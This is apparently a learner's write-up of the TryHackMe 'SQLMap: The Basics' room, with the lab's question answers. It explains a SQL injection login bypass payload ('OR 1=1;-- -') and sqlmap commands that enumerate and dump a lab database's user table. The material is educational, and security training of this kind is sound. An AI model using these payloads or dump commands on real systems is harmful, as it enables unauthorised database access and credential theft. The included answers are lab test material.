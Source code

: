 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/sqlmap-the-basics/","created":"2024-11-04T19:56:39.272-05:00","updated":"2025-03-09T16:38:29.957-04:00"}
---
```


# Task 2 - SQL Injection Vulnerability

- Usual SQL query from user to data base is sent like so,
	- `SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';`
	- Needs both username and password to be correct in order to go through
- If user input not validated/sanitized, attackers can input direct SQL queries that get executed in the database
- They can type in the following fields for the example above
	- Username: John
	- Password: abc' OR 1=1;-- -
	- The SQL query now becomes:
		- `SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';`
		- The OR condition here with the 1=1 statement makes the whole query true, regardless of the password being inputted (abc)
		- "-- -" at the end comments out anything after the 1=1, allowing the query to get executed right away
		- Ensure to use single quotes to make the last part separate instead of one whole string  

> [!Question]
> **Which boolean operator checks if at least one side of the operator is true for the condition to be true?** 

> [!Success] Answer
> OR

> [!Question]
> **Is 1=1 in an SQL query always true? (YEA/NAY)** 

> [!Success] Answer
> Answer: YEA
# Task 3 - Automated SQL Injection Tool

| Flag     | Description                                                                                  |
| -------- | -------------------------------------------------------------------------------------------- |
| --wizard | Guides you through each step to ask questions in order to finish scan, perfect for beginners |
| --dbs    | Extract all databases names                                                                  |
| -D       | Used to extract information about tables from set database, D database_name --tables         |
| --dump   | Extracts records from tables                                                                 |
| -u       | Used to provide URL                                                                          |
| --tables | Extracts all tables                                                                          |

- HTTP Get-based testing    
	- Look for vulnerable URL/requests, mainly those with GET parameters
	- Vulnerable to SQL injection
- Can also do POST-based testing    
	- Need to intercept POST request with -r
	- Can save to text file
	- Example, `sqlmap -r intercepted_request.txt` 

> [!Question]
> **Which flag in the SQLMap tool is used to extract all the databases available?** 

> [!Success] Answer
> --dbs

> [!Question]
> **What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)** 

> [!Success] Answer
> `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`
   
# Task 4 - Practical Exercise

  If the page URL is not showing the GET parameters, can inspect page source and go to the Network section to find all requests
  
![The in-browser tools in the website that allow us to see the URL with parameters.|1000](/img/user/TryHackMe/THM_Images/749c11b0d8fccaea899c4902ee4732e4.png)

> [!Question]
> **How many databases are available in this web application?** 

Went to website and tried a random request to spawn the GET record, got to see the HTTP Get request link, [http://10.10.245.244/ai/includes/user_login?email=test&password=test](http://10.10.245.244/ai/includes/user_login?email=test&password=test)

![Exported image|1000](/img/user/TryHackMe/THM_Images/f80555465be20f0c39aae7a62681d668.png)  

Ran the command,

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test --dbs --level=5. 
```

Said Y,Y,Y,N for the parameters regarding level 5

![Exported image](/img/user/TryHackMe/THM_Images/358d32e53559d823854b64a926ed3c9b.png)  

![Exported image](/img/user/TryHackMe/THM_Images/77110f8198e789535e6ea6b75f08a6a3.png)  

> [!Success] Answer
> 6

> [!Question]
> **What is the name of the table available in the "ai" database?** 

Ran the command, 

```
sqlmap -u 'http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables
```

![Exported image](/img/user/TryHackMe/THM_Images/c0ae81e31bcc2e146548e8075da07205.png)  

> [!Success] Answer
> user

> [!Question]
> **What is the password of the email test@chatai.com?** 

Ran the command, 

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables --dump
```

![Exported image](/img/user/TryHackMe/THM_Images/e160f2cd554b2bc6b85e3255cd6983d0.png)  

> [!Success] Answer
> 12345678
          

